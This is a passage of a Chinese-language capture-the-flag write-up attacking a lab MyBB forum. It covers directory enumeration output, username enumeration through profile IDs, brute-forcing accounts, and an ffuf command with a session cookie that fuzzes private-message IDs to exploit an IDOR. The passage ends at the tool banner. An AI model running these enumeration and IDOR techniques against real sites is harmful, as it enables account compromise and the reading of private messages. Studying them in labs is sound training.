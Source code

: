 ```
/panel (Status: 200)
/administrator (Status: 200)
/task.php (Status: 200)
/warnings.php (Status: 200)
/reputation.php (Status: 200)
/htaccess.txt (Status: 200)
/jscripts (Status: 301)
/moderation.php (Status: 200)
/change_password (Status: 200)
/analyse (Status: 200)
/server-status (Status: 403)
/editpost.php (Status: 200)
===============================================================
2023/11/18 01:27:31 Finished
===============================================================
```

访问界面, 发现其对应的是一个论坛网站, 可以在其中注册用户, 于是我注册了一个用户, 在其中可以查看一些用户的帖子, 并且我发现一些漏洞:

- 通过查看个人主页, 并操作 id 选项, 可以查看其他用户的名称信息, 可以利用此来进行暴力破解
- 阅读帖子我收集到以下信息:
    - jscale 用户要为其家庭设置 SSH
    - bubbaBIGFOOT 说其邮箱存在大量垃圾邮件
    - 一些特殊的用户 : ArnoldBagger、bigpaul、BlackCat
    - 发现管理员的一个帖子 — 漏洞赏金计划 /bugbountyHQ , 此网页指向 /reportPanel.php , 从这里我知道了一些弱密码以及论坛漏洞情况

开始进行暴力破解, 获取到一些用户的账号

![image-20240709205348271](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-205349.png)

登陆 ArnoldBagger 用户的账号, 查看用户的邮件, 从中我知道了一些内容:

- 有一个插件存在漏洞, 并且开发出了新版本 v3 存在问题的版本是 v2 , 同时告诉我们需要进行测试 , 这个应该就是问题的关键点, 所以我们首先需要找到对应的插件存放位置

![image-20240709205355908](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-205357.png)

但是从页面的显示来看, 我们并没有获取到对应的插件信息,  在查看邮件信息时, 我发现其对应的 url 很有意思 [`http://10.10.178.193/private.php?action=read&pmid=39`](http://10.10.178.193/private.php?action=read&pmid=39) 这应该存在 IDOR 漏洞, 我们可以借此来进行枚举, 来查看一些可能被用户删除的邮件信息

```bash
root@ip-10-10-145-140:~/m4tr1xexitdenied# ffuf -w ./numbers.txt:FUZZ -u 'http://10.10.178.193/private.php?action=read&pmid=FUZZ'  -b "mybb[lastvisit]=1700283844; sid=9647324899039f13bfc44093719a9bec; _ga=GA1.1.1847425810.1700283845; _gid=GA1.1.625594847.1700283845; mybb[lastactive]=1700283858; loginattempts=1; mybbuser=11_OoTfmlJyJhdJiqHXucrvRueHvGhE6LnBi5ih27KLQBKfigQLud" -fs 9359

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.178.193/private.php?action=read&pmid=FUZZ
 :: Wordlist         : FUZZ: ./numbers.txt
 :: Header           : Cookie: mybb[lastvisit]=1700283844; sid=9647324899039f13bfc44093719a9bec; _ga=GA1.1.1847425810.1700283845; _gid=GA1.1.625594847.1700283845; mybb[lastactive]=1700283858; loginattempts=1; mybbuser=11_OoTfmlJyJhdJiqHXucrvRueHvGhE6LnBi5ih27KLQBKfigQLud
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
```